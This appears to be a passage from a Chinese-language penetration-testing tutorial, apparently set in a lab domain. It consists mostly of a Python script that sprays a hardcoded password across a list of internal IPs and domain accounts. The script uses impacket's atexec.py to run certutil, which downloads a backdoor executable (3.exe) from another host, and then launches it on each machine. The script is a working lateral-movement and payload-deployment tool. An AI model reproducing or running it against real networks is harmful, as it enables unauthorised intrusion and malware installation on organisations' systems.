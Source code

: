 为了能够更好的进行批量读取我们写下了如下的脚本代码进行批量上线：

```python
import os

ips = {'192.168.3.21',
      '192.168.3.29',
      '192.168.3.30',
      '192.168.3.31',
      '192.168.3.32'
      }

users = {'Administrator ',
      'webadmin',
      'boss ',
      'mary',
      'dbadmin',
      'fileadmin',
      'vpnadm ',
      'itadmin'
      }

passes = {'admin!@#45'
          }    

hashes = {'518b98ad4178a53695dc997aa02d455c'
          }    

def exp_xz(): # 利用ipc连接并使得其他主机下载后门
	for ip in ips:
		for user in users:
			for pwd in passes:
				# 此处是登录本地管理员用户并执行下载命令
				exec1 = 'python .\\impacket-0.11.0\\examples\\atexec.py ./administrator:'+pwd+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/3.exe c:/y.exe"'
				#此处是登录域内用户并执行下载命令
				exec2 = 'python .\\impacket-0.11.0\\examples\\atexec.py god/'+user+':'+pwd+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/3.exe c:/y.exe"'

				os.system(exec1)
				os.system(exec2)

def exp_zx():
      for ip in ips:
            for user in users:
                  for pwd in passes:
                        # 此处是登录本地管理员用户并执行下载命令
                        exec1 = 'python .\\impacket-0.11.0\\examples\\atexec.py ./administrator:'+pwd+'@'+ip+' "c:/y.exe"'
                        # 此处是登录域内用户并执行下载命令
                        exec2 = 'python .\\impacket-0.11.0\\examples\\atexec.py god/'+user+':'+pwd+'@'+ip+ ' "c:/y.exe"'

                        os.system(exec1)
                        os.system(exec2)
                       

if __name__ == '__main__':
      exp_xz()
      exp_zx()
      # exec1 = 'python .\\impacket-0.11.0\\examples\\atexec.py ./Administrator:'+'admin!@#45'+'@'+'192.168.3.29'+' "certutil -urlcache -split -f http://192.168.3.31/3.exe c:/y.exe"'
      # os.system(exec1)
```